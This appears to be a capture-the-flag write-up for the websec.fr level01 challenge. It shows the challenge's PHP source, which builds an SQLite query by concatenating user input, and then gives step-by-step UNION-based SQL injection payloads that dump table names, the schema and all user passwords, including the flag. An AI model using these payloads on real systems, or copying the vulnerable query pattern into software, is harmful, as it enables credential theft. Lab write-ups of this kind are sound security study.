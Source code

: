 Link: http://websec.fr/level01/index.php

+ Source code given
```
<?php
session_start ();

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL); 

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();

    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```
+ When we give the id as 1 or 2 or 3 it gives the username with that id and when we give 4 it doesnt anything as output which means it has only 3 users
+ When we try a basic injection like `1'` it throws an error. 
+ So, to find the number of columns:
  `1 union select 1,2 --` gave the output as `id: 1 username: 2` , so we understood that number we gave is given as output in id and username area, we can use this to dump the data.
+ To dump the table names:
  `-1 union SELECT 1,group_concat(tbl_name) FROM sqlite_master WHERE type = 'table'--`
  output: id = 1, username= users (table name)
+ `-1 UNION SELECT 1,sql from sqlite_master --`
  output: id=1 username=CREATE TABLE users(id int(7), username varchar(255), password varchar(255))
+ To dump the usernames and passwords:
`-1 UNION SELECT 1, GROUP_CONCAT(password) FROM users--`
  It dumped the passwords of all the users and there we got the flag
  output: id=1 username=UnrelatedPassword,ExampleUserPassword,WEBSEC{Simple_SQLite_Injection}
  
  `Flag: WEBSEC{Simple_SQLite_Injection}`
  

